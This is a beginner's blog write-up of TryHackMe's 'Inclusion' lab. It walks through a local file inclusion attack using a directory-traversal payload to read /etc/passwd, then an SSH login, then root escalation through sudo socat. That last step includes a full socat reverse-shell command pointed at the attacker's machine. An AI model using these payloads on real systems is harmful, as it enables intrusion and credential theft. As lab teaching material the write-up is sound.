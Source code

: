 ```yaml
---
title: Inclusion Writeup
date: 2020-03-28
description: A beginner-friendly writeup on TryHackMe's Inclusion challenge. 
tags:
  - Writeup
  - TryHackMe
  - Security
banner: ./defence-against-the-dark-arts.jpg
---
```


## Introduction

This challenge on [TryHackme.com](http://tryhackme.com) focuses on Local File Inclusion attack. Local File Inclusion is when the attacker tricks the web application into exposing or running files on the webserver. 

Room Link: [https://tryhackme.com/room/inclusion](https://tryhackme.com/room/inclusion)

## Resources used

- Nmap
- GTFObins
- Kali VM

## Writeup

### Enumeration

The first and foremost step in any attack is an enumeration. So, gather data about the services running using a **Nmap** scan. 

![Inclusion/1.png](1.png)

From the scan results, we can derive that 2 services are running:

- SSH
- HTTP

### Web Recon

Let's poke at the Webserver and see it's contents.

![Inclusion/2.png](2.png)

It seems to be a blog. Explore it and see if anything is interesting to focus on. 

### Local File Inclusion

The pages takes in a parameter to the server to display the webpage. Tampering this may disclose files in the webserver causing a LFI attack if the application does not whitelist which files can be included.

![Inclusion/3.png](3.png)

Common files to look for : 

- /etc/passwd - View usernames of all users on a system
- /etc/shadow - View hashed passwords of all users on the system
- /etc/hosts - View other devices the webserver is communicating with.

and so much more if you're clever. 

**You can combine this with Directory traversal to access the file you want.** 

    >> website.com/article?name=../../../etc/passwd 

The passwd file has been exposed. In this, we can observe the users present in the system. 

![Inclusion/4.png](4.png)

There is a user named *falconfeast.* The interesting part is that there is a comment which possibly seems like a username and password. Keep in mind, this is a very rare occasion of having the password in the comment, which I believe is deliberately has been done by the creator of the room. After all this room is to understand the basics of LFI. 

### Entering the Web Server

Let's assess the situation.

- There are a username and password available
- There is an SSH present in the webserver

So, the next step is to try logging in to the server using SSH. 

    >> ssh falconfeast@rootpassword 

![Inclusion/5.png](5.png)

After logging in the directory has a user.txt file that contains the ***user flag!*** 

Observing the placement of the user.txt, it would be safe to assume the root flag would be in /root folder.

![Inclusion/6.png](6.png)

Unfortunately, neither the privilege cannot be escalated nor the /root folder can be accessed directly. But, have a look at the command allowed for *falconfeast* using :

    >> sudo -l

![Inclusion/7.png](7.png)

It mentions that the user is allowed to run /usr/bin/socat as root with no password required. 

> Socat is a command-line based utility that establishes two bidirectional byte streams and transfers data between them.

To learn how this can be abused, check [GTFOBins](https://gtfobins.github.io/). 

> GTFOBins is a curated list of Unix binaries that can be exploited by an attacker to bypass local security restrictions.

From that, it is confirmed that a [reverse shell](https://gtfobins.github.io/gtfobins/socat/) is possible. 

### Abusing Socat

On your machine run:

    >> socat file:`tty`,raw,echo=0 tcp-listen:12345

And on the LFI machine, run : 

    >> RHOST= <your ip address> 
    >> RPORT=12345
    >> socat tcp-connect:$RHOST:$RPORT exec:sh,pty,stderr,setsid,sigint,sane

![Inclusion/8.png](8.png)

Once you run the command on the LFI machine, the reverse shell must have been successfully created and you can access the machine as *root*. 

To confirm it, run:

    >> id  #this would print the real and effective user and group IDs.

Then move into /root folder and list out the items in it. 

![Inclusion/9.png](9.png)

The root.txt is present here with the ***root flag!** (Now you can pat yourself :p )*

---

### The Unintentional Way

There is another easy way to read the user and root flag, but I don't think it was the intended way but I would still love to share it.
The flags can be accessed directly through the URL if you are familiar with the location of the flags. 
![Inclusion/10extra.png](10extra.png)
<p align="center">
User Flag
</p>
![Inclusion/11extra.png](11extra.png)
<p align="center">
Root Flag
</p>
## Final Thoughts

This room is not only a good experience for anyone looking to learn about LFI but also introduces the concept of privilege escalation using Unix Binaries and reverse shells. 
I will be trying other rooms at TryHackMe and posting my writeups too. So watch out this space for more awesome content.

---

If you like my content, let me know on Twitter: [https://twitter.com/swsjona](https://twitter.com/swsjona)

**Further Reading** 

[What is Local File Inclusion (LFI)? | Acunetix](https://www.acunetix.com/blog/articles/local-file-inclusion-lfi/)

[Local File Inclusion](https://blog.tryhackme.com/lfi/)